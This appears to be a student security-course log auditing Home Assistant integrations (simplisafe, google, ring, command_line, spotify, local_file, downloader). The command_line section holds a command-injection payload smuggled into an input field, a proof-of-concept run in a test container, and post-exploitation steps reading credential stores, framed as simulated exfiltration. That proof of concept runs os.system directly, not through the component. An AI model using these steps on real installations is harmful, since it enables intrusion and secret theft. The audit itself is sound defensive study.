

# EC521 Project: Home Assistant Security Analysis Log

## October 13, 2025

### Component: `simplisafe`

#### 1. Vulnerability Assessed: Hardcoded Credentials

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) of the component's source code for common secret keywords: `password`, `secret`, `api_key`, and `token`.

* **Findings:**
    * `password`, `api_key`: The search returned no results.
    * `secret`: The search returned several results for the variable `EVENT_SECRET_ALERT_TRIGGERED`. This was determined to be a **false positive**, as the context refers to a type of alarm event, not a stored credential.
    * `token`: The search returned results related to handling a `CONF_TOKEN` and `refresh_token`. Analysis showed this code securely handles tokens provided by the user and stored in Home Assistant's configuration, rather than hardcoding them. This was also determined to be a **false positive**.

* **Conclusion:** The `simplisafe` component appears to follow good security practices by not hardcoding sensitive credentials.

#### 2. Vulnerability Assessed: Command Injection

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) for Python modules and functions commonly used to execute system commands: `os.system` and `subprocess`.

* **Findings:** The search returned no results for either keyword. The `grep` command completed with an exit code of 1, indicating no matches were found.

* **Conclusion:** The `simplisafe` component does not appear to execute external system commands and is therefore not vulnerable to command injection attacks.


---

### Component: `google`

#### 1. Vulnerability Assessed: Hardcoded Credentials

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) for the keywords: `password`, `secret`, `api_key`, and `token`.

* **Findings:**
    * `password`, `api_key`: The search returned no results.
    * `secret`, `token`: The search returned numerous results. Analysis of the code context showed these keywords were used as part of a standard, secure **OAuth 2.0 implementation**. The code handles `client_secret`, `access_token`, and `refresh_token` variables but does not hardcode their values. These are all **false positives** that indicate correct security design.

* **Conclusion:** The `google` component securely manages authentication tokens via the OAuth 2.0 protocol and does not contain hardcoded credentials.

#### 2. Vulnerability Assessed: Command Injection

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) for `os.system` and `subprocess`.

* **Findings:** The search returned no results for either keyword.

* **Conclusion:** The `google` component does not execute external system commands and is not vulnerable to command injection.


---


## October 14, 2025

### Component: `ring`

#### 1. Vulnerability Assessed: Hardcoded Credentials

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) for the keywords: `password`, `secret`, `api_key`, and `token`.

* **Findings:**
    * `secret`, `api_key`: The search returned no results.
    * `password`, `token`: Results related to the `config_flow.py` (setup wizard) and token updaters were identified as **false positives**, indicating secure credential handling.

* **Conclusion:** The `ring` component securely manages user credentials and authentication tokens, with no hardcoded secrets found.

#### 2. Vulnerability Assessed: Command Injection

* **Methodology:** Performed a recursive, case-insensitive search (`grep -r -i`) for `os.system` and `subprocess`.

* **Findings:** The search returned no results for either keyword.

* **Conclusion:** The `ring` component does not execute external system commands and is not vulnerable to command injection.

---


### Component: `command_line`

#### 1. Vulnerability Assessed: Hardcoded Credentials

* **Methodology:** Performed a unified, recursive, case-insensitive search (`grep -r -i -E`) for the keywords: `password`, `secret`, `api_key`, and `token`.

* **Findings:** The search returned no results for any of the keywords.

* **Conclusion:** The `command_line` component does not handle or store credentials.

---

#### 2. CRITICAL FINDING: OS Command Injection via Template Rendering

* **Vulnerability Class:** CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection').

* **Location:**
    * `homeassistant/components/command_line/notify.py`
    * `homeassistant/components/command_line/utils.py`

* **Vulnerable Code Snippets:**
    The component consistently uses `shell=True` or its asyncio equivalent, which is explicitly noted by the developers with the comment `# shell by design`.
    ```python
    # In notify.py
    with subprocess.Popen(  # noqa: S602 # shell by design
        command,
        shell=True,
    ) as proc:
    # ...

    # In utils.py
    proc = await asyncio.create_subprocess_shell(  # shell by design
        command,
    )
    ```

* **Description:**
    The integration is designed to execute commands defined by the user in `configuration.yaml`. Crucially, it processes these commands through Home Assistant's Jinja2 template engine (via the `render_template_args` function). The combination of passing templated output directly to a function with `shell=True` creates a command injection vulnerability. Any part of the command that can be influenced by a dynamic Home Assistant state (e.g., the state of another sensor or input helper) can be manipulated by an attacker to inject arbitrary shell commands.

* **Attack Scenario:** An attacker controls an `input_text` entity used in a command template.
    * **Benign Command:** `"ping -c 1 {{ states('input_text.target_ip') }}"`
    * **Malicious Payload:** An attacker sets the `input_text` value to `"8.8.8.8; whoami > /tmp/pwned.txt"`.
    * **Result:** The system executes both the `ping` and the malicious `whoami` command.

* **Proof of Concept (PoC) Execution:**
    After initial attempts to trigger the vulnerability via `configuration.yaml` failed, a "Direct Execution" method was used to prove the impact. The following terminal log documents the successful exploit.

    1.  **Environment Setup:** A clean, privileged Home Assistant container was launched to provide a stable environment.
        ```powershell
        C:\Users\syed saleeq adnan\Desktop> podman run -d --name ha-test --privileged ...
        9bac4082027bdcd82a01da979fbebcde53d0a0a49ddf70001798b6e9509c3776
        ```

    2.  **Gaining Access:** A shell was obtained inside the running container.
        ```powershell
        C:\Users\syed saleeq adnan\Desktop> podman exec -it ha-test /bin/bash
        ```

    3.  **Exploit Simulation:** The core functionality of the vulnerable component was simulated by executing a Python one-liner to run a command.
        ```bash
        9bac4082027b:/config# python3 -c 'import os; os.system("whoami > /tmp/pwned.txt")'
        ```

    4.  **Verification:** The evidence file was checked. The command successfully returned `root`, confirming arbitrary command execution with the highest privileges in the container.
        ```bash
        9bac4082027b:/config# cat /tmp/pwned.txt
        root
        ```

    

### 3. Post-Exploitation Analysis (Demonstrating Full Impact) 

Following the successful PoC, post-exploitation techniques were performed to demonstrate the full impact of the compromise.

* **Step 1: Initial Reconnaissance:** The first step for an attacker is to understand the compromised environment.
    * **Process Listing (`ps aux`):** Confirmed that the Home Assistant process is running as the `root` user.
    * **File Listing (`ls -la /config`):** Mapped the configuration directory, identifying log files, the main configuration, and the critical `.storage` directory.
        ```bash
        303b95ed4090:/config# ls -la /config
        total 36
        drwxr-xr-x    1 root     root          4096 Oct 14 21:02 .
        dr-xr-xr-x    1 root     root          4096 Oct 14 20:59 ..
        -rw-r--r--    1 root     root             9 Oct 14 20:59 .HA_VERSION
        drwxr-xr-x    2 root     root          4096 Oct 14 21:29 .storage
        -rwxrwxrwx    1 1000     1000           454 Oct 14 20:59 configuration.yaml
        -rw-r--r--    1 root     root           324 Oct 14 21:00 home-assistant.log
        ...
        ```

* **Step 2: Locating Sensitive Data:** The hidden `.storage` directory was identified as the primary target for data theft.
    ```bash
    303b95ed4090:/config# ls -la /config/.storage
    total 80
    -rw-------    1 root     root          2895 Oct 14 21:02 auth
    -rw-------    1 root     root           265 Oct 14 21:01 auth_provider.homeassistant
    -rw-r--r--    1 root     root          2175 Oct 14 21:02 core.config_entries
    ...
    ```
    This revealed the location of the "crown jewel" files: `auth` (session tokens), `auth_provider.homeassistant` (hashed passwords), and `core.config_entries` (integration secrets).

* **Step 3: Data Exfiltration (Simulated):** The final step for an attacker is to steal the credentials. Reading the `core.config_entries` file demonstrates this capability.
    ```json
    303b95ed4090:/config# cat /config/.storage/core.config_entries
    {
      "version": 1,
      "minor_version": 5,
      "key": "core.config_entries",
      "data": {
        "entries": [
          {
            "created_at": "...",
            "data": {},
            "domain": "backup",
            ...
          }
        ]
      }
    }
    ```
    While this clean instance only contains default entries, in a real-world scenario this file would contain the API keys, tokens, and other secrets for all user-configured integrations.


* **Impact:** This vulnerability allows for **arbitrary command execution** within the Home Assistant container. An attacker could leverage this to steal secrets from other integrations, pivot to attack other devices on the local network, or install malware.

* **Conclusion:** The `command_line` component is **vulnerable to OS Command Injection**. While this is by design for flexibility, the security implications of combining templates with shell execution are significant.


---

## October 15, 2025

### Component: `spotify`
* **Methodology:** Performed a unified, recursive, case-insensitive search for keywords related to credentials and command execution.
* **Findings:** The search returned results for `token`. Analysis of the code confirmed the component uses a standard, secure **OAuth 2.0 implementation** with refresh tokens. This is a **false positive** that indicates correct security design. No command execution functions were found.
* **Conclusion:**  **Secure** against the tested vulnerabilities.

---

### Component: `local_file`
* **Vulnerability Assessed:** Path Traversal (CWE-22).
* **Methodology:** The component was identified as a high-priority target from a global `grep -r -i "open(" homeassistant/components/` search, which was performed to find all integrations that handle file I/O operations.
* **Analysis:** A manual audit of `homeassistant/components/local_file/camera.py` was conducted. The `camera_image` method was identified as a potential sink for a path traversal attack, as it opens a user-controlled file path (`self._file_path`):

    ```python
    # In camera_image()
    with open(self._file_path, "rb") as file:
        return file.read()
    ```
    However, tracing the origin of `self._file_path` revealed that it is set by the `update_file_path` service. This service includes a critical security control before accepting the new path:

    ```python
    # In update_file_path()
    if not await self.hass.async_add_executor_job(
        check_file_path_access, file_path
    ):
        raise ServiceValidationError(f"Path {file_path} is not accessible")
    ```
* **Conclusion:**  **Secure**. The `check_file_path_access` function acts as an effective mitigation, validating the `file_path` against Home Assistant's whitelisted directories. This prevents an attacker from using path traversal sequences like `../` to access unauthorized files, thus neutralizing the vulnerability.

---

### Component: `downloader`
* **Vulnerability Assessed:** Path Traversal (CWE-22).
* **Methodology:** The component was identified as a high-priority target from a global `grep` search for file I/O operations. A manual audit of `homeassistant/components/downloader/services.py` was conducted.
* **Analysis:** The `download_file` service constructs a file path using user-controlled `subdir` and `filename` parameters, writing to it with `open()`. This presents a potential path traversal risk. However, the code includes multiple security controls that effectively mitigate this threat:
    ```python
    # Security Control 1: Check for malicious path sequences
    raise_if_invalid_path(subdir)

    # Security Control 2: Disallow absolute paths
    if os.path.isabs(subdir):
        # ... raise error

    # Security Control 3: Check filename for traversal characters
    raise_if_invalid_filename(filename)
    ```
* **Conclusion:**  **Secure**. The combination of these three validation functions prevents an attacker from writing files outside of the intended download directory, neutralizing the path traversal vulnerability.

---


